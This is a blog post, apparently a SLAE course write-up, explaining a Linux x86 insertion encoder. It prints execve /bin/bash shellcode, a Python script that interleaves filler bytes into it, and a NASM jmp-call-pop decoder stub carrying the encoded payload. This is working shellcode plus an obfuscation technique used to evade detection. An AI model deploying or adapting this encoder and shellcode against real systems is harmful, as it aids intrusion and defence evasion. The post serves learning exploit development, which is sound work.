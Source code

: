 ```yaml
---
layout: post
title: SLAE Exercise 4 - Insertion Encoder
subtitle: Linux x86 Insertion Encoder
tags: [SLAE]
---
```


**Overview**

The fourth task of the SLAE exam required a custom encoding shceme to be written. The requirements for this were as follows:

- PoC using execve-stack as the shellcode to encode and execute

**Requirements**

An insertion encoder was looked at for this exercise. This is done by inserting values into the original shellcode using a script which is then subsequently decoded when the shellcode is run by a decoder stub within the shellcode. The final shellcode will have a format similar to the following:


|Decoder stub   |  encoded shellcode|


For insertion encoder, a value will be inserted in-between the legitimate shellcode an example can be seen here whereby the value 0x10 is the inserted value:

Shellcode: 0x01, 0x02, 0x03, 0x04

Encoded shellcode: 0x01, 0x10, 0x02, 0x10, 0x03, 0x10, 0x04

To obtain the original shellcode, the role of the decoder stub for an insertion encoder is to move the legitimate shellcode values into the inserted values. An example of this can be seen below:

Encoded shellcode: 0x01, 0x10, 0x02, 0x10, 0x03, 0x10, 0x04

Iteration 1: 0x01, 0x02, 0x10, 0x03, 0x10, 0x04

Iteration 1: 0x01, 0x02, 0x03, 0x10, 0x04


*Knowing how  this works, what is needed to create this shellcode?*

- Shellcode that is to be encoded, for this the SLAE execve-stack shellcode as per exercise criteria. 
- A program to insert the required values into the original shellcode. 
- A decoder shellcode program to decode the altered shellcode and run it. 


**Shellcode**

The shellcode for the execve-stack program is as follows:

```
"\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

```

This is due to the requirements set out for this exercise within the exam. 

**Encoder**

For the program to insert the required values into the shellcode, the python script found [here](https://github.com/14Deep/SLAE/tree/master/Exercise%204) can be used to insert the required values into the required shellcode, including putting values at the end of the shellcode to let the decoder stub know when to stop decoding. 

The code is commented so should not need explaining, this can be seen below:

```
#!/usr/bin/python
# Python Insertion Encoder 

# input shellcode, for this exercise the execve-stack shellcode
shellcode = ("\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")

# the value that is wished to be inserted, can be changed to a required value
insertionvalue = 0x10

# the value that signals the end of the shellcode, make sure this is not the same as 'insertionvalue'
endvalue = '0xaa,0xaa'

# setting encoded to be populated in the upcoming loop
encoded = ""

print 'Encoded shellcode ... \n'

#loop through shellcode inserting the 'insertionvalue' inbetween
for x in bytearray(shellcode) :

	encoded += '0x' 			# add 0x to 'encoded'
	encoded += '%02x,' %x                   # add first shellcode byte in hex format (02x) and a comma
	encoded += '0x%02x,' % insertionvalue   # as above, but the chosen insertion value is used instead


encoded += endvalue				# add 'endvalue' to shellcode so the decoder knows when to stop

print encoded + '\n'				# print 'encoded'

print 'Total length of encoded shellcode is - %d' % len(bytearray(shellcode))

```


**Decoder**

The decoder utilises the jmp, call, pop technique to get the address of the encoded shellcode. From there, it iterates through the shellcode moving all of the legitimate values into the inserted valued. The shellcode is heavily commented and should clearly explain what is occurring at each step. The shellcode can be found [here](https://github.com/14Deep/SLAE/blob/master/Exercise%204/Encoder.py), and is also displayed below:

```
; Filename: InsertionDecoder.nasm
; Author:   Jake Badman
; Website:  14deep.github.io
; Purpose:  An insertion decoder to decode the shellcode for exercise 4 of SLAE 

global _start			

section .text
_start:

;Will be using jmp, call, pop to get the address of the encoded shellcode. 

				
xor eax, eax			     ; clearing registers
xor ebx, ebx
xor ecx, ecx

jmp short shellcode                  ; jumping to call_shellcode, which holds the encoded shellcode

decoder:

	pop esi                      ; pop address of Shellcode into esi
	lea edi, [esi + 1]           ; this is tracking the inserted values, edi will contain the value after esi, which is the inserted value
	inc al                       ; move 1 to eax, used as a counter for inserted values
	mov byte cl, [esi + 1]	     ; moving the first inserted value into cl, this will stay constant and be used to check when the shellcode has finished
decode:
	mov bl, byte [esi + eax]     ; bl will point to the inserted values
	xor bl, cl                   ; check if there is still shellcode to decode
	jnz short EncodedShellcode   ; if the zero flag is not set it means that the xor'd value wasn't the same as the inserted value meaning
				     ; the shellcode has finished. 


	mov bl, byte [esi + eax + 1] ; This moves the value after the inserted value into bl
	mov byte [edi], bl	     ; move bl, the legitimate value into the inserted value before it 
	inc edi			     ; increment edi so that it points to the next inserted value
	inc eax			     ; adding 2 to eax to point to the next inserted value
	inc eax	

	jmp short decode             ; loop until all shellcode has been decoded


shellcode:

	call decoder
	EncodedShellcode: db 0x31,0x10,0xc0,0x10,0x50,0x10,0x68,0x10,0x62,0x10,0x61,0x10,0x73,0x10,0x68,0x10,0x68,0x10,0x62,0x10,0x69,0x10,0x6e,0x10,0x2f,0x10,0x68,0x10,0x2f,0x10,0x2f,0x10,0x2f,0x10,0x2f,0x10,0x89,0x10,0xe3,0x10,0x50,0x10,0x89,0x10,0xe2,0x10,0x53,0x10,0x89,0x10,0xe1,0x10,0xb0,0x10,0x0b,0x10,0xcd,0x10,0x80,0x10,0xaa,0xaa

```


